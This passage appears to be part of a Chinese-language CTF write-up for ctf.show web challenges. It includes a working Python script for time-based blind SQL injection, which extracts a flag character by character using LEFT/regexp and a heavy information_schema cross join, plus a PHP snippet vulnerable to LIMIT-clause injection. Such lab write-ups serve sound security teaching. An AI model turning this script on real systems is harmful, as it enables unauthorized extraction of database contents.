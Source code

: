 substr用left代替即可，有点像之前布尔盲注的一道题，只是改成了时间盲注罢了



```python
import requests
import string
import time

url = "http://52728b9a-ffae-4f96-b51f-0549bb5cb4e0.challenge.ctf.show/api/"
str=" _{}-" + string.ascii_lowercase + string.digits
result = ''
for i in range(1,45):
    for j in str:
        # payload = "select table_name from information_schema.tables where table_schema=database() limit 0,1"
        # payload = "select column_name from information_schema.columns where table_name='ctfshow_flagxcac' limit 1,1"
        payload = "select flagaabcc from ctfshow_flagxcac"

        data = {
            'ip': f"1) or if(LEFT(({payload}),{i})regexp('{result+j}'),(select count(*) from information_schema.columns A, information_schema.columns B),1)#",
            'debug': 0
        }
        try:
            r = requests.post(url, data=data, timeout=0.15)
            time.sleep(0.2)
        except Exception as e:
            time.sleep(0.2)
            result = result + j
            print("[*] loading :"+result)
            break

print("[*] result :"+result)

```



#### web221

```php
查询语句

  //分页查询
  $sql = select * from ctfshow_user limit ($page-1)*$limit,$limit;
      
返回逻辑

//TODO:很安全，不需要过滤
//拿到数据库名字就算你赢
```

p神的文章有提到limit注入
